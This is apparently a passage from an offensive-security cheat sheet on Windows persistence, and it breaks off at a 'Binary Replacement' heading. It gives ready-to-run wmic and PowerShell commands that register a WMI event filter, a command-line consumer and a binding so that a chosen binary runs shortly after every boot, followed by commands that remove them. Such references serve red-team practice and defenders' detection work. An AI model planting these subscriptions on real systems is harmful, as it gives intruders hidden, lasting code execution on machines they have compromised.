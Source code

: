 
### Windows Management Instrumentation Event Subscription

> An adversary can use Windows Management Instrumentation (WMI) to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system.


* **__EventFilter**: Trigger (new process, failed logon etc.)
* **EventConsumer**: Perform Action (execute payload etc.)
* **__FilterToConsumerBinding**: Binds Filter and Consumer Classes

```ps1
# Using CMD : Execute a binary 60 seconds after Windows started
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="WMIPersist", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="WMIPersist", ExecutablePath="C:\Windows\System32\binary.exe",CommandLineTemplate="C:\Windows\System32\binary.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"WMIPersist\"", Consumer="CommandLineEventConsumer.Name=\"WMIPersist\""
# Remove it
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='WMIPersist'" | Remove-WmiObject -Verbose

# Using Powershell (deploy)
$FilterArgs = @{name='WMIPersist'; EventNameSpace='root\CimV2'; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 60 AND TargetInstance.SystemUpTime < 90"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs
$ConsumerArgs = @{name='WMIPersist'; CommandLineTemplate="$($Env:SystemRoot)\System32\binary.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs
$FilterToConsumerArgs = @{Filter = [Ref] $Filter; Consumer = [Ref] $Consumer;}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
# Using Powershell (remove)
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'WMIPersist'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'WMIPersist'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```


### Binary Replacement

#### Binary Replacement on Windows XP+
